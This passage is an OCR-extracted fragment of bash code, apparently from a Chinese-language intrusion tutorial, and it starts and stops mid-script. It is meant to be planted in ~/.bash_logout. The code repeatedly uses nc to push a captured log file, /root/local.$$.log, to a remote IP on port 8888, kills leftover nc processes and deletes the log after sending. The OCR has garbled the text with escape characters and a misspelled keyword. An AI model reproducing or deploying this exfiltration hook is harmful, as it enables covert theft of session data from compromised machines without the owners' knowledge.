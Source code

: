 ((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

break

else

contine

fi

done

fi

实战阶段\~/.bash_logout(单端口):

num=8888

while true

do

((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid 2\>&1 \| grep "No such" \> error\$\$

cycle=\$(cat error\$\$)

if [[ \$cycle = "" ]]

then

rm -f error\$\$

echo 1 \>& /dev/null

else

rm -f error\$\$

sleep 10
